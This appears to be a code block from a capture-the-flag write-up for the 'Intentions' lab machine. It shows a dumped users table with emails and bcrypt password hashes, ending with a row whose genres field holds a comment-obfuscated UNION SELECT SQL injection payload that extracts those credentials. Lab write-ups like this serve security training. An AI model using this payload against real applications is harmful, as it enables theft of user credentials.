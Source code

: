 ```
steve:steve@intentions.htb:1:$2y$10$M/g27T1kJcOpYOfPqQlI3.YfdLIwr3EWbzWOLfpoTtjpeMqpp4twa:food,travel,nature
greg:greg@intentions.htb:1:$2y$10$95OR7nHSkYuFUUxsT1KS6uoQ93aufmrpknz4jwRqzIbsUpRiiyU5m:food,travel,nature
Melisa Runolfsson:hettie.rutherford@example.org:0:$2y$10$bymjBxAEluQZEc1O7r1h3OdmlHJpTFJ6CqL1x2ZfQ3paSf509bUJ6:food,travel,nature
Camren Ullrich:nader.alva@example.org:0:$2y$10$WkBf7NFjzE5GI5SP7hB5/uA9Bi/BmoNFIUfhBye4gUql/JIc/GTE2:food,travel,nature
Mr. Lucius Towne I:jones.laury@example.com:0:$2y$10$JembrsnTWIgDZH3vFo1qT.Zf/hbphiPj1vGdVMXCk56icvD6mn/ae:food,travel,nature
Jasen Mosciski:wanda93@example.org:0:$2y$10$oKGH6f8KdEblk6hzkqa2meqyDeiy5gOSSfMeygzoFJ9d1eqgiD2rW:food,travel,nature
Monique D'Amore:mwisoky@example.org:0:$2y$10$pAMvp3xPODhnm38lnbwPYuZN0B/0nnHyTSMf1pbEoz6Ghjq.ecA7.:food,travel,nature
Desmond Greenfelder:lura.zieme@example.org:0:$2y$10$.VfxnlYhad5YPvanmSt3L.5tGaTa4/dXv1jnfBVCpaR2h.SDDioy2:food,travel,nature
Mrs. Roxanne Raynor:pouros.marcus@example.net:0:$2y$10$UD1HYmPNuqsWXwhyXSW2d.CawOv1C8QZknUBRgg3/Kx82hjqbJFMO:food,travel,nature
Rose Rutherford:mellie.okon@example.com:0:$2y$10$4nxh9pJV0HmqEdq9sKRjKuHshmloVH1eH0mSBMzfzx/kpO/XcKw1m:food,travel,nature
Dr. Chelsie Greenholt I:trace94@example.net:0:$2y$10$by.sn.tdh2V1swiDijAZpe1bUpfQr6ZjNUIkug8LSdR2ZVdS9bR7W:food,travel,nature
Prof. Johanna Ullrich MD:kayleigh18@example.com:0:$2y$10$9Yf1zb0jwxqeSnzS9CymsevVGLWIDYI4fQRF5704bMN8Vd4vkvvHi:food,travel,nature
Prof. Gina Brekke:tdach@example.com:0:$2y$10$UnvH8xiHiZa.wryeO1O5IuARzkwbFogWqE7x74O1we9HYspsv9b2.:food,travel,nature
Jarrett Bayer:lindsey.muller@example.org:0:$2y$10$yUpaabSbUpbfNIDzvXUrn.1O8I6LbxuK63GqzrWOyEt8DRd0ljyKS:food,travel,nature
Macy Walter:tschmidt@example.org:0:$2y$10$01SOJhuW9WzULsWQHspsde3vVKt6VwNADSWY45Ji33lKn7sSvIxIm:food,travel,nature
Prof. Devan Ortiz DDS:murray.marilie@example.com:0:$2y$10$I7I4W5pfcLwu3O/wJwAeJ.xqukO924Tx6WHz1am.PtEXFiFhZUd9S:food,travel,nature
Eula Shields:barbara.goodwin@example.com:0:$2y$10$0fkHzVJ7paAx0rYErFAtA.2MpKY/ny1.kp/qFzU22t0aBNJHEMkg2:food,travel,nature
Mariano Corwin:maggio.lonny@example.org:0:$2y$10$p.QL52DVRRHvSM121QCIFOJnAHuVPG5gJDB/N2/lf76YTn1FQGiya:food,travel,nature
Madisyn Reinger DDS:chackett@example.org:0:$2y$10$GDyg.hs4VqBhGlCBFb5dDO6Y0bwb87CPmgFLubYEdHLDXZVyn3lUW:food,travel,nature
Jayson Strosin:layla.swift@example.net:0:$2y$10$Gy9v3MDkk5cWO40.H6sJ5uwYJCAlzxf/OhpXbkklsHoLdA8aVt3Ei:food,travel,nature
Zelda Jenkins:rshanahan@example.net:0:$2y$10$/2wLaoWygrWELes242Cq6Ol3UUx5MmZ31Eqq91Kgm2O8S.39cv9L2:food,travel,nature
Eugene Okuneva I:shyatt@example.com:0:$2y$10$k/yUU3iPYEvQRBetaF6GpuxAwapReAPUU8Kd1C0Iygu.JQ/Cllvgy:food,travel,nature
Mrs. Rhianna Hahn DDS:sierra.russel@example.com:0:$2y$10$0aYgz4DMuXe1gm5/aT.gTe0kgiEKO1xf/7ank4EW1s6ISt1Khs8Ma:food,travel,nature
Viola Vandervort DVM:ferry.erling@example.com:0:$2y$10$iGDL/XqpsqG.uu875Sp2XOaczC6A3GfO5eOz1kL1k5GMVZMipZPpa:food,travel,nature
Prof. Margret Von Jr.:beryl68@example.org:0:$2y$10$stXFuM4ct/eKhUfu09JCVOXCTOQLhDQ4CFjlIstypyRUGazqmNpCa:food,travel,nature
Florence Crona:ellie.moore@example.net:0:$2y$10$NDW.r.M5zfl8yDT6rJTcjemJb0YzrJ6gl6tN.iohUugld3EZQZkQy:food,travel,nature
Tod Casper:littel.blair@example.org:0:$2y$10$S5pjACbhVo9SGO4Be8hQY.Rn87sg10BTQErH3tChanxipQOe9l7Ou:food,travel,nature
hacker:hacker@gmail.com:0:$2y$10$zGa8nCu33gt1USaLC343OOFt5XfqZOzIWg253BPDI5kIc1gBChpre:')\/**\/UNION\/**\/SELECT\/**\/1,2,concat(name,':',email,':',admin,':',password,':',genres),4,5\/**\/from\/**\/users#
```
cool
